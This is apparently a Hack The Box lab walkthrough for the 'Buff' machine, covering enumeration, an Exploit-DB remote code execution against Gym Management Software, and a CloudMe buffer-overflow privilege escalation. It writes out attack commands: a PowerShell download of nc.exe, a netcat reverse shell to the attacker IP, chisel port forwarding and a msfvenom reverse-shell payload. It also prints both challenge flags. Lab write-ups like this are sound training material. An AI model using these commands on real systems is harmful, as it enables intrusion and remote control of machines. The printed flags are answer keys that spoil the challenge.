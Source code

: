 # HTB Walkthrough - Buff

**Machine Name**: Buff  
**Target IP**: 10.129.2.18  
![webpage](img/webpage_2423fc7a.png)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Buff 10.129.2.18
```
![nmap](img/nmap_f9c8cc6e.png)

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## 🌐 Web Enumeration

- Website accessible at: http://10.129.2.18:8080
- Title: `mrb3n's Bro Hut`
- Software identified: **Gym Management Software 1.0**

##⚙️ Exploitation (RCE via Gym Management Software)

[Exploit Reference - EDB 48506](https://www.exploit-db.com/exploits/48506)  
![exploitdb](img/exploitdb_087d778c.png)

```bash
python2 exploit.py http://10.129.2.18:8080/
```
![reverseshell](img/reverseshell_e9c018c8.png)

**Initial Shell Gained.**

---

## 🪪 User Flag

```bash
type ..\..\..\..\Users\shaun\Desktop\user.txt
```
![userflag](img/userflag_b484b24d.png)

**Flag:** `4277a01cb57aa37a5e6aeeb90deb91c4`

---

## ⚙️ Reverse Shell Upgrade

```bash
# Host on attack box
python3 -m http.server 80

# On victim
powershell Invoke-WebRequest -Uri http://10.10.14.156/nc.exe -Outfile C:\Users\Public\nc.exe
C:\Users\Public\nc.exe 10.10.14.156 4444 -e cmd.exe
```
![revshell](img/revshell_c8219960.png)

---

## 🧭 Privilege Escalation

### 🔍 winPEAS Findings
![listeningPort](img/listeningport_897d0207.png)  
![cloud](img/cloud_45063e72.png)

- Detected service: `CloudMe` running on `127.0.0.1:8888`
- Vulnerable to buffer overflow ([EDB 48389](https://www.exploit-db.com/exploits/48389))

---

## 🔁 Port Forwarding

**Using chisel:**

```bash
# On attacker machine
chisel server -p 8000 --reverse

# On victim
chisel.exe client 10.10.14.156:8000 R:8888:127.0.0.1:8888
```
![portforwarding](img/portforwarding_7e9dcaa9.png)

---

## 💥 Exploiting CloudMe

1. Generate payload:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.156 LPORT=7777 -b "\x00\x0a\x0d" -f python -v payload
```
![payload](img/payload_2f1231e1.png)

2. Inject payload into CloudMe exploit script and run:

```bash
python3 cloudme_exploit.py
```
![root](img/root_2ff91279.png)

---

## 👑 Root Access

```bash
whoami
# buff\administrator

type C:\Users\Administrator\Desktop\root.txt
```
![rootflag](img/rootflag_e322a775.png)

**Flag:** `1d8332fbbb42c15032013d5e2fdd2655`
